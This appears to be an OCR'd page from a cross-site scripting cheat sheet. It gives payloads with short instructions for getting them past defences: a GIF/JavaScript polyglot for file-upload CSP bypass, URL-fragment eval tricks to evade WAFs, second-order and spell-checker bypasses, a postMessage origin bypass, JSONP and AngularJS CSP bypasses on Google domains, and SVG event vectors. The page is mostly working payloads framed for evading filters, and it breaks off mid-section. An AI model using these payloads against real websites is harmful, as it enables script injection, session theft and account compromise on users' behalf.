 ```

## File Upload Injection – HTML/js GIF Disguise
Use to bypass CSP via file upload. Save all content below as `xss.gif` or `xss.js` (for strict 
MIME checking). It can be imported to target page with <link rel=import href=xss.gif> (also 
`xss.js`) or <script src=xss.js></script>. It’s image/gif for PHP. 
```
GIF89a=//<script>
alert(1)//</script>;
```

## Jump to URL Fragment
Use when you need to hide some characters from your payload that would trigger a WAF 
for example. It makes use of respective payload format after URL fragment (#). 
```
eval(URL.slice(-8)) #alert(1)
eval(location.hash.slice(1)) #alert(1)
document.write(decodeURI(location.hash)) #<img/src/onerror=alert(1)>
```

## Second Order XSS Injection
Use when your input will be used twice, like stored normalized in a database and then 
retrieved for later use or inserted into DOM. 
```
&lt;svg/onload&equals;alert(1)&gt;
```

## PHP Spell Checker Bypass
Use to bypass PHP’s pspell_new function which provides a dictionary to try to guess the 
input used to search. A `Did You Mean` Google-like feature for search fields.  
```
<scrpt> confirm(1) </scrpt>
```

## Event Origin Bypass for postMessage() XSS
Use when a check for origin can be bypassed in javascript code of target by prepending one
of the allowed origins as a subdomain of the attacking domain that will send the payload. 
Example makes use of CrossPwn script (available in Extra section) at localhost.
```
http://facebook.com.localhost/crosspwn.html?target=//brutelogic.com.br/tests/
status.html&msg=<script>alert(1)</script>
```


## CSP Bypass (for Whitelisted Google Domains) 
Use when there’s a CSP (Content-Security Policy) that allows execution from these 
domains.
```
<script src=//www.google.com/complete/search?client=chrome%26jsonp=alert(1)>
</script>
<script src=//www.googleapis.com/customsearch/v1?callback=alert(1)></script>
<script src=//ajax.googleapis.com/ajax/libs/angularjs/1.6.0/angular.min.js>
</script><x ng-app ng-csp>{{$new.constructor('alert(1)')()}}
```


## SVG Vectors with Event Handlers
It works on Firefox but adding attributename=x inside <set> makes it work in Chromium-
based too. `Set` can also be replaced by `animate`. Use against blacklists.
```
<svg><set onbegin=alert(1)>
<svg><set end=1 onend=alert(1)>
```

## SVG Vectors without Event Handlers
Use to avoid filters looking for event handlers or src, data, etc. Last one is Firefox only, 
```